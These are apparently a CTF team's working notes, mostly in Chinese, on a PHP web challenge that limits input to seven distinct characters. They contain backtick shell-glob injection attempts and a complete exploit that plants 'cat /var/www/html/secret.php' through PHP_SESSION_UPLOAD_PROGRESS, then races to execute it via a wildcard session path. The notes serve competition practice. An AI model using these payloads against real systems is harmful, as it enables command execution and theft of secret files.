

# **Stress Release Service**

## **Stress Release Service:**

```
Chall name:
- Stress Release Service

Category:
- Misc / Web

Author:
- tsug0d

Description:
For a better New Year, we are introducing a service that can help you reduce stress: <http://192.53.173.71:8080> . As our service is only available during the New Year, we are also providing you with a code for later use in material section.

```

[StressReleaseService__give.zip](https://prod-files-secure.s3.us-west-2.amazonaws.com/c378b070-6063-4137-81ee-f75f82009b81/8d78a98b-0a45-4355-a471-4e5956cf6fe5/StressReleaseService__give.zip)

It is using `preg_match` to validate.

为啥是misc题啊

限制7个字符长度，可能需要点脑洞吧（

tiniest php webshell?

https://www.pentestpartners.com/security-blog/the-tiniest-php-system-shell-ever/

抽象，反引号或者想办法传参？

[CTFshow_rce极限大挑战](https://prod-files-secure.s3.us-west-2.amazonaws.com/c378b070-6063-4137-81ee-f75f82009b81/302a6103-2a30-446e-aba4-8686bf154b39/Untitled.txt)

他不限制在7个字符可以看下面这张图


<!--more-->


相同的字符他会认为是一个

我这里最短的自增是11位字符 师傅们可以试试异或

https://github.com/splitline/PHPFuck

https://b-viguier.github.io/PhpFk/

他不能超过300 phpfunck太容易超过了

看看能不能eval另一个get参数

我有个想法 他既然给了我们secret是不是构造什么 文件包含 去读取这个secret.php啊

试了试，都不太行呀

```jsx
# payload = "'.`. /???/?????????`.'"
# payload = "'.`. /???/???/????/?????.???`.'"
# /proc/thread-self/fd/5
payload = "'.`ls -l /????/??????-????/??/??`.'"
payload = "'.`. /proc/thread-self/??/??`.'"
# payload = "'.`echo /????/??????-????/????????? /???/???/????/??????.???`.'"
# payload = "'.`/????/??????-????/????????? /???/???/????/??????.???`.'"
```

我感觉自增是不可能了

$_[];.()+

最少都需要9+

限制了

```jsx
payload="';`/????`;"
```

这道题是独享还是共享 docker吗

出了

exp:

```jsx
POST /index.php HTTP/1.1
Host: 127.0.0.1:1003
User-Agent: curl/8.1.2
Accept: */*
Cookie: PHPSESSID=123456789012345678901234567890123456789012345678
Content-Length: 17636
Content-Type: multipart/form-data; boundary=------------------------aa6600bbb1aa56a5
Connection: close

--------------------------aa6600bbb1aa56a5
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS";

1
cat /var/www/html/secret.php;exit;
1
--------------------------aa6600bbb1aa56a5
Content-Disposition: form-data; name="FILE"; filename="123.php"
Content-Type: application/octet-stream

123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123
--------------------------aa6600bbb1aa56a5--
GET /index.php?shout="'.`.+/???/?????????????????????????????????????????????????????`.'" HTTP/1.1
Host: 127.0.0.1:1003
User-Agent: curl/8.1.2
Accept: */*
Cookie: PHPSESSID=123456789012345678901234567890123456789012345678
```

开两个intruder跑就行

